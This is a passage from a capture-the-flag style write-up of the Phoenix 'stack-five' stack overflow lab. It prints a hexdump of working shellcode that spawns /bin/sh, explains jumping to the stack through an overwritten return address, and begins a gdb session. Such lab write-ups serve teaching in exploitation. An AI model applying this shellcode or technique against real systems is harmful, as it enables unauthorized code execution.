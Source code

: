 I then used Python to extract the shellcode,
```console
user@phoenix-amd64:~$ hexdump -C shellcode.bin
00000000  55 48 89 e5 48 83 ec 10  48 bf 2f 62 69 6e 2f 73  |UH..H...H./bin/s|
00000010  68 00 48 89 7c 24 f8 48  8d 7c 24 f8 be 00 00 00  |h.H.|$.H.|$.....|
00000020  00 ba 00 00 00 00 b8 3b  00 00 00 0f 05           |.......;.....|
0000002d
```

### Breaking it
As in the previous level, we overflow a function's return address, only this time we jump to an address on the stack.
```console
user@phoenix-amd64:~$ gdb /opt/phoenix/amd64/stack-five
(gdb) b start_level
```
We can already locate the return address on the stack and the address to `buffer`.

![](/images/stack-5/0.png)

